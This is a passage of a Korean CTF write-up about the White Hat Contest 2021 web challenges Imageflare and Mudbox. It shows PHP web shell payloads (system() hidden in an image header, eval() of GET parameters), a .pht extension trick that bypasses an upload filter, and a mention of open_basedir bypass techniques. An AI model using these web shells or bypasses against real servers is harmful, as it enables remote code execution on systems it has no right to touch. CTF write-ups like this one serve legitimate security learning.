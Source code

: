 ![](https://github.com/P0cas/ctf/blob/main/2021/White%20Hat%20Contest%202021/Imageflare/4.png?raw=true)

아까 위에서 올린 php 파일로 접근을 해보니 `7*7`가 그대로 실행 되어 출력되는 것을 확인할 수 있었습니다.

![](https://github.com/P0cas/ctf/blob/main/2021/White%20Hat%20Contest%202021/Imageflare/7.png?raw=true)

```php
<?= echo system($_GET['c']); ?>
```

이번에는 위와 같이 이미지 헤더 내에 웹쉘 페이로드를 넣은 후에 업로드하고, 쉘 명령어를 실행해보니 잘 되는 것을 볼 수 있었고, 이를 이용해 플래그를 획득했습니다.

```plaintext
FLAG{ce9f5efd2c90c3f98fc61fcaf608f842}
```

---
# (Web) Mudbox [290 pts]

> Mudbox 문제는  session_save_path()를 이용한 open_basedir 우회 기법 또는 UAF Sandbox Escape를 이용해 open_basedir 옵션을 우회하고, RCE 하는 문제 입니다. 

저는 ini_set(), chdir() 함수로 ini_set() 함수로 open_basedir 옵션을 우회하려고 밤을 새면서 시도 했는데, ini_set()을 이용해서 open_basedir을 전역에서 설정해주어도 ㅈㄴ 설정이 아예 안 됐습니다. 하지만 저는 이 방법을 고집하고, 계속 시도 하였지만 php.ini 설정 때문인지 이년이 끝까지 말을 안 듣더라구요 :)

결국 대회 끝나고 지인들한테 물어보니 첫 번째는 `session_save_path()`를 이용해서  open_basedir 우회하기 위해 `plugin/` 디렉터리에 웹쉘 올리고, LFI를 이용해서 해당 파일을 실행 시키는 방식이고, 두 번째는 잘 알려진 UAF Sandbox Escape 공격을 하는 것 입니다.

저도 대회때 UAF 공격을 한 번 시도 해보긴 했는데, 파일 크기 때문에 UAF POC 파일을 업로드 하지 못 해서, 공격을 못 했는데, 지금 생각해보면 그냥 `<?= eval($_GET['cmd']); ?>`로 파일을 올리고, cmd 변수에 UAF Payload를 그냥 넘겨주면 됐었습니다.

또한 CCE 2020에서 nomorephp라는 문제와 싱크로율 100 ;; 그냥 ini_set()만 고집 안 했으면 풀었을 건데 아쉽네요.

![](https://github.com/P0cas/ctf/blob/main/2021/White%20Hat%20Contest%202021/Mudbox/1.png?raw=true)

문제에서는 위와 같이 파일 업로드 기능을 제공하고 있고, php, phar, htm이 들어간 확장자는 모두 필터링에 걸리는데, pht 확장자를 이용해서 우회할 수 있습니다. 

![](https://github.com/P0cas/ctf/blob/main/2021/White%20Hat%20Contest%202021/Mudbox/2.png?raw=true)

```php
<?php
    eval($_GET['code']);
    show_source(__FILE__);
?>
```
그래서 일단 위 페이로드를 pht 확장자로 업로드 해주었습니다.

![](https://github.com/P0cas/ctf/blob/main/2021/White%20Hat%20Contest%202021/Mudbox/3.png?raw=true)

업로드한 파일을 읽어 보니 php로 잘 인식하는 것을 확인 할 수 있습니다.

![](https://github.com/P0cas/ctf/blob/main/2021/White%20Hat%20Contest%202021/Mudbox/rce.png?raw=true)

code 값으로 `phpinfo();`를 넘겨ㅡ주니 실행 또한 잘 되는 것을 확인 할 수 있습니다.
